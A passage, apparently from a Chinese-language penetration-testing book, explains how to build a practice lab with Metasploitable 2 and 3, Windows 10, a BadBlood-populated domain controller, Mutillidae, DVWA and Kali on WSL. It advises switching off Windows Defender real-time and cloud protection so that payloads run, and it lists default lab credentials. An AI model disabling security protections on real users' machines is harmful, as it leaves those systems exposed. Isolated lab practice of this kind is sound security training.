

Metasploitable 2 现在已准备就绪可以使用。



继续启动 Metasploitable 系统，如果系统询问你是移动了还是复制了它，请点击“我已复制”。你现在应该可以看到 Metasploitable 桌面：



> 4. 使用屏幕上的凭据登录。

> 登录名称：`msfadmin`

> 密码：`msfadmin`

要退出此虚拟机窗口并重新获得鼠标控制权，只需按下“Ctrl-Alt”键。

### Metasploitable 2 - 设置 IP 地址

默认情况下，Metasploitable 2 的地址设置为“动态”（Dynamic）。这对于我们的实验室来说完全足够。如果你想将其设置为静态 IP，请编辑 `/etc/network/interfaces` 文件。在此文件中，你可以设置 IP 地址、子网掩码和网关。

> ➢ 在 Metasploitable2 中导航到 `/etc/network`

> ➢ 输入 `sudo nano interfaces`

> ➢ 将 `iface eth0 inet dynamic` 行更改为 `iface eth0 inet static`

> ➢ 然后输入 IP 地址、子网掩码和你的路由器网关。

- 示例 IP 地址仅供参考，请使用适用于你网络的 IP 地址。



> ➢ 完成后，按“ctrl-x”，“y”，然后按“回车键 (enter)”

> ➢ 输入 `cat interfaces` 来验证你的更改：



> ➢ 输入 `sudo reboot` 重启 Metasploitable2

我们现在已经设置好了 Metasploitable2 和 Kali 系统并准备好使用。要验证 Kali 和 Metasploitable2 是否能够互相看到，请使用 `ifconfig` 获取两个系统的 IP 地址，然后使用 `ping` 命令。从 Metasploitable 系统 ping Kali 系统，反之亦然。如果你在两个响应中都看到“64 bytes from …”，那么就可以确认一切都已设置，它们可以互相看到并正常通信。

### Windows 10 - 作为虚拟机安装

在本书的几个示例中，我使用了 Windows 10 桌面版和 Windows 11 系统。你需要在 VMWare Player 中安装一个授权的 Windows 版本。你也可以从微软下载一个有时限的企业试用版。

Windows `.ISO` 试用版位于：
[`www.microsoft.com/en-us/evalcenter/evaluate-windows-10-enterprise`](https://www.microsoft.com/en-us/evalcenter/evaluate-windows-10-enterprise)

Windows 11 的 VMWare 镜像位于：
[`developer.microsoft.com/en-us/windows/downloads/virtual-machines/`](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/)

我不会涵盖在 VMWare Player 中安装完整版 Windows 10 的过程，但基本上你只需要你的 Windows 10 ISO 和安装密钥，通过点击“创建新虚拟机”并指向你的 ISO 来从磁盘进行完整安装即可：



然后像往常安装 Windows 10。我建议为虚拟机至少使用 4 GB 内存。如果你使用的内存太少，虚拟机将运行会很缓慢，但内存过多可能会影响主机的性能。此外，将网络适配器设置为桥接（或任何最适合你环境的设置）。



> ➢ 如果你有足够的处理能力，将处理器设置为“2”也会有所帮助

Microsoft Defender 团队一直活跃于监控反病毒工具的绕过方法的更新，并在它们发布后立即对其进行拦截。因此，在编写此书时，目前有效的标准绕过方法在本书出版和发行时很可能不再有效。因此，为了功能性，我建议你在目标系统上关闭反病毒软件 (AV)。

在 Windows 10 设置中，“病毒和威胁防护”设置里，进入“管理设置”，然后关闭“实时防护”。



同时也关闭“云和样本检测”：



如果你在主机上运行非常激进的反病毒/安全软件，你可能也需要禁用它。在处理某些 C2（命令与控制）框架时，我必须这样做，主机的反病毒软件会捕获负载并在其执行之前删除它们。最后，在提示时安装 VMWare 工具。

**警告！判断在你的测试实验室环境中禁用安全防护是你的责任和唯一责任。请勿在禁用主机安全防护的情况下在互联网上或生产环境中使用你的主机系统。此外，请确保你的实验室和互联网之间有一个硬件防火墙。**

### 使用 BadBlood 安装 Windows Server 虚拟机

接下来，让我们安装一个带有“BadBlood”的 Windows Server 虚拟机。由 Secframe 开发的 BadBlood 是一个用于安全实验室的 Windows 填充工具。它向活动目录（Active Directory）中添加数千个对象，这些对象……嗯，并不非常安全。第一步是让虚拟机成为域控制器。

1.  在 VMWare Player 中安装 Windows Server 2016 或 2019。 (注：将 Windows Server 2016 或 2019 视为虚拟机)

2.  将其设置为域控制器。你可以手动操作，也可以使用来自 BadBlood 作者的工具：
[`github.com/davidprowe/AD_Sec_Tools/blob/master/AD_domain_CreateNewDomain/defaultNewCreation.ps1`](https://github.com/davidprowe/AD_Sec_Tools/blob/master/AD_domain_CreateNewDomain/defaultNewCreation.ps1)

在运行脚本之前，你应该检查 PowerShell 脚本并根据需要更改任何设置。我将域名称更改为“domain.local”。脚本会将服务器设置为 2012R2 模式。

以管理员身份运行 PowerShell 命令：

```


工具 GitHub：[`github.com/davidprowe/BadBlood`](https://github.com/davidprowe/BadBlood)

如前所述，BadBlood 会向 Windows Server 添加数千个对象。它会生成随机的用户和对象，并为它们分配它们不应拥有的权限——创建一个完美的测试环境。

### 下载并安装 BadBlood

> ➢ 下载 BadBlood ZIP 包 - [`github.com/davidprowe/BadBlood`](https://github.com/davidprowe/BadBlood)

> ➢ 解压它

> ➢ 在管理员级别的 PowerShell 提示符中运行 `.\Invoke-BadBlood.ps1`

```


OWASP Mutillidae II 是一个故意留有漏洞的 Web 应用程序，非常适合安全实验室训练。它侧重于学习和练习 OWASP 前十十大漏洞。Mutillidae 已经存在多年，但它仍然是一个活跃的项目，并且更新频率相当高。安装 Mutillidae 有多种方法，每种方法在工具作者的 YouTube 频道都有介绍。你可以按照自己喜欢的方式进行安装。在本书中，我将其安装在 Ubuntu 虚拟机上，运行良好。

每种安装方法在工具作者的 YouTube 网站上都有详细介绍：

[`www.youtube.com/playlist?list=PLZOToVAK85MqxEyrjINe-LwDMhxJJKzmm`](https://www.youtube.com/playlist?list=PLZOToVAK85MqxEyrjINe-LwDMhxJJKzmm)

再次，你可以遵循工具作者的任何安装方法，只要最适合你的环境即可。我选择选择直接在 Ubuntu 上运行——这里是简短的安装概述。

### 在 Ubuntu 上安装 Mutillidae

1. 创建一个 Ubuntu 虚拟机
2. 安装 XAMPP
3. 然后，执行 `git clone Mutillidae` 到 `/opt/lampp/htdocs` 目录。
4. 启动控制面板：`sudo /opt/lampp/manager-linux-x64.run`
5. 为 Mutillidae 设置密码：

   > ➢ `/opt/lampp/bin/mysql -u root`
   > ➢ `use mysql;`
   > ➢ `update user set authentication_string=PASSWORD('mutillidae') where user='root';`
   > ➢ `update user set plugin='mysql_native_password' where user='root';`
   > ➢ `flush privileges;`
   > ➢ `quit;`

6. 启动 Mutillidae
   > ➢ `cd /opt/lampp`
   > ➢ `sudo ./xampp start`



7. 访问 `http://localhost/mutillidae` - 你可能需要点击“setup/ reset database”。



要远程访问 Web 服务器，可能需要在 `/opt/lamp/htdocs/mutillidae/.htaccess` 文件中允许访问你的网络地址——默认仅允许 Localhost 和 VMWare 主机地址。

**故障排除** - 如果你遇到“directory not empty, can’t reset database”错误——你可能需要删除 `/opt/lampp/var/mysql` 中的 Mutillidae 文件夹，然后再次从 Mutillidae 网站点击“rebuild/setup” 数据库。

现在我们已经在 Ubuntu 上设置好了 Mutillidae，可以在同一系统中添加另一个漏洞 Web 应用程序 - DVWA。

## Damn Vulnerable Web Application (DVWA)

工具 GitHub: [`github.com/digininja/DVWA`](https://github.com/digininja/DVWA)

Damn Vulnerable Web Application (DVWA) 是另一个用于练习和学习 Web 应用安全的良好工具。如果你在 Ubuntu 虚拟机上安装了 Mutillidae，可以在同一系统上安装 DVWA。

### 安装 DVWA

1. 切换到你的 HTDOCS 目录
2. 输入 `sudo git clone https://github.com/digininja/DVWA.git`
3. 访问 `http://127.0.0.1/DVWA/setup.php`

根据你的环境修复任何红色标记的区域——如果你将其安装在 Mutillidae 系统上，你需要在配置文件文件中将用户名和密码更改为 `root/ mutillidae`。

> 注意：我没有安装 reCAPTCHA 密钥，你不需要它。

## 用于 VirtualBox 的 Metasploitable 3

工具 GitHub 站点: [`github.com/rapid7/metasploitable3`](https://github.com/rapid7/metasploitable3)

Metasploitable 3 是 Metasploit 实验室目标系列的最新版本。它是第一个两个版本的 Metasploitable——Windows 版本和 Linux 版本。安装过程可能有点挑战性，特别是 Windows 版本。由于安装更新较为频繁，我的建议是访问上面列出的工具 GitHub 站点并严格遵循安装说明。在尝试安装之前，确保你安装了指定的精确要求。

Linux 和 Windows 版本都像一种“夺旗赛”（CTF）游戏。我在书中只使用 Linux 版本，所以这是你唯一安装的。它似乎也是两个版本中安装起来最可靠的。

Metasploitable3 安装程序使用 VirtualBox 和 Vagrant 来创建虚拟机。在尝试安装 Metasploitable3 之前，你必须已安装 VirtualBox。你还需要按照其他需求安装 Vagrant-Reload 插件。



一旦安装好所有内容，可以使用网站安装说明中指定的命令来构建一个或两个 Metasploitable 虚拟机。



如所述，我们在书中只需要 Linux 版本。一旦安装，它应该会自动添加到 VirtualBox 中。只需确保你的新 Metasploitable3 虚拟机网络设置与你的 VMWare 网络设置相同的子网设置即可大功告成了。它们应该能够相互通信。

## 结论

就是这样！我们的虚拟实验室现在可以投入使用了！在本章中，我们涵盖了如何在单个系统上设置多个虚拟机以创建一个测试实验室。我们将它们都设置为使用相同的网络，以便它们相互通信。我们将在全书其余部分中使用这种设置。提醒一下，如果你设置了自己的虚拟主机并使用 DHCP，系统的 IP 地址可能会在重启时发生变化。如果你不确定自己的 IP 地址是什么，可以运行 `ifconfig` (Linux) 或 `ipconfig` (Windows)。

在实验室系统和 CTF 网站上练习安全技术是提高技能的最佳方法之一。永远不要在生产系统上尝试新技术或未经测试的工具。在使用它们之前，你应该知道工具的作用以及如何撤销更改。

## 资源与参考文献

> ➢ VMware - [`www.vmware.com/`](https://www.vmware.com/)
> ➢ Kali 安装说明 - [`www.kali.org/docs/installation/`](https://www.kali.org/docs/installation/)
> ➢ Kali 下载 - [`www.kali.org/get-kali/`](https://www.kali.org/get-kali/)
> ➢ Microsoft VM 下载 - [`developer.microsoft.com/en-us/windows/virtual-machines/`](https://developer.microsoft.com/en-us/windows/virtual-machines/)

# 第 3 章：Windows 子系统 上的 Kali Linux Win-KeX



Win-KeX 或 Kali 的 Windows 适用于 Windows 子系统 (WSL) 上最新的 Kali Linux 版本。此更新允许更好地访问硬件，并允许你以“无缝”模式运行 Kali——Kali 菜单出现在你的 Windows 10 桌面顶部，任何运行的程序都会自己的窗口中弹出。

> 注意：我不建议在书中安装和使用 WSL 的 Win-KeX 或 Kali Linux。我只是作为参考展示安装。尽管很好玩而且在无缝模式下看起来很棒，但 Kali Linux 在 VMWare 或 Virtualbox 虚拟机中运行效果要好得多。


## 1. 在你的 Windows 10 系统上安装 Linux Windows 子系统 (WSL)：

[`www.kali.org/docs/wsl/win-kex/`](https://www.kali.org/docs/wsl/win-kex/)

可以在此处找到更多信息：

[`www.kali.org/news/win-kex-version-2-0/`](https://www.kali.org/news/win-kex-version-2-0/)

# 2. 你可能需要在“控制面板 > 程序 > 启用或关闭 Windows 功能”中启用 Windows “虚拟机虚拟机平台”。



## 3. 你可能需要在 BIOS 中开启“虚拟化”，如果需要，请查看你的主板设置。

# 4. 安装完成后，你可以通过打开 PowerShell 并输入以下命令来启动 Win-KeX：

```bash
wsl
kex --sl -s
```



这将以“无缝（Seamless）”模式启动 Kali：



初始安装仅带有极少数工具。你可以使用元软件包（metapackages）来安装你需要的工具包。

[`www.kali.org/docs/general-use/metapackages/`](https://www.kali.org/docs/general-use/metapackages/)

只需打开终端并使用 `sudo apt install` 安装你需要的任何包即可。在编写本文时，我需要打开终端并以 `sudo` 身份运行所有命令才能让它们识别到网络。WSL 中的 Kali 看起来非常酷炫，尤其是在“无缝模式”下，但出于实际考虑，我建议读者直接在虚拟机中安装 Kali。

最后一点说明——Win-KeX 在 Windows 11 上运行似乎比在 Windows 10 上流畅得多：



在 Windows 中使用 WSL  Kali 看起来太棒了！

## WSL 与 VMware 的冲突

使用 WSL 的一个缺点是它会禁用 VMW¹。在启用 Windows 虚拟机平台后，VMWare 将无法运行。当尝试启动虚拟机时，你会看到类似下面的错误。



这很容易解决，无需卸载虚拟机平台。

以管理员身份运行 PowerShell 以禁用 WSL 并重新启用 VMWare：

```bash
bcdedit /set hypervisorlaunchtype off
reboot
```

禁用 VMWare 并重新启用 WSL：

```bash
bcdedit /set hypervisorlaunchtype auto
reboot
```

如果你在虚拟机中丢失了网络连接，你可能还需要进入 VMWare 网络设置，并取消勾选 WSL 添加的“Hyper-V 虚拟以太适配器”。

如下所示：


Kali Linux Win-KeX 的设置可能有点挑战，但在 Windows 桌面面上以无缝模式运行它是很棒的。如果你想玩玩，它会很有趣。尽管我不建议在书中教程中使用它，请在 VMWare Player 或 Virtualbox 中使用 Kali Linux。

## 浏览器中的 Kali

最后，你还可以使用 noVNC 在网页浏览器中运行 Kali。这为你提供了一个完整的图形界面，你可以从另一个系统远程使用它。基本上，这是一种在 xwindow 中运行远程 Kali 的更简单的方法。它允许你通过任何网页浏览器访问 Kali，比如 Linux Mint  Firefox。

例如：

